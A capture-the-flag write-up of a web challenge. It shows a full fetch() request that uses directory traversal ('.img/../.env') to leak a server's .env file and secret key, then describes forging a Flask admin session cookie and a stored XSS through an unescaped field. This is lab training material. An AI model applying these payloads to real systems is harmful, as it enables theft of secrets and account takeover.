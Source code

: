 # Intro to web (<font color=green> Introduction </font>)


## Description

5 vulns, 5 stages - can you find them all?

## Tools Used

- Browser DevTools (Inspect Element, Network tab)
- Python (requests, itsdangerous for cookie forging)
- Base64 decoder

## Skills Learned

- Directory traversal to access hidden files
- Forging Flask session cookies with known secret key
- XSS injection and sandbox evasion

## Steps Taken
### Flag 1
1. From `FLAG_STAGE_1 = os.environ.get("FLAG_STAGE_1")`, to get Flag 1 we have to read .env file.
2. There is a `read_file(path)` function that reads file from path that starts with ./img and a POST request (`/note/new`) that call `read_file(path)` to read and display img file.
3. So we can send a POST request and change the path to `./img/../.env` and the env will be displayed on the site.
    ```
    fetch("https://redview-of-thunderous-wealth.gpn23.ctf.kitctf.de/note/new", {
    "headers": {
        "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "accept-language": "en-US,en;q=0.9",
        "cache-control": "max-age=0",
        "content-type": "application/x-www-form-urlencoded",
        "sec-ch-ua": "\"Google Chrome\";v=\"137\", \"Chromium\";v=\"137\", \"Not/A)Brand\";v=\"24\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"Windows\"",
        "sec-fetch-dest": "document",
        "sec-fetch-mode": "navigate",
        "sec-fetch-site": "same-origin",
        "sec-fetch-user": "?1",
        "upgrade-insecure-requests": "1"
    },
    "referrer": "https://redview-of-thunderous-wealth.gpn23.ctf.kitctf.de/note/new",
    "referrerPolicy": "strict-origin-when-cross-origin",
    "body": "title=1&content=111&image_path=.img/../.env",
    "method": "POST",
    "mode": "cors",
    "credentials": "include"
    });
    ```
4. The .env will be displayed as a broken image on the site but we can view it in inspect elements `src="data:image/png;base64, <.env>`. The .env will be base64 encoded so just decode it to get flag 1 and FLASK_APP_SECRET_KEY.
### Flag 2
1. From `app.mjs`, flag 2 is in a note and to access this note we have to gain moderator.
2. To gain moderator, we just have to set user role as `admin` seen from the `is_mod()` function. Since we have the flask key, we can forge a cookie with `admin` as user role using this [script](forge.py).
3. Replace session cookie with the forged cookie and go to `/moderator` and the flag will be in a note titled `My juicy note`
### Flag 3
1. Examining the `report_note.html`, we found a vulnability at `<p>Report reason: {{ note.reason|safe }}</p>`. This allows us to do XSS by inputting a script into report.
2. However we are unable to get the cookie as document.cookie came out empty. We also tried to capture any post request using `ngrok` but got nothing.
3. Unfortunately we were unable to solve this and moved on to other challenges. :(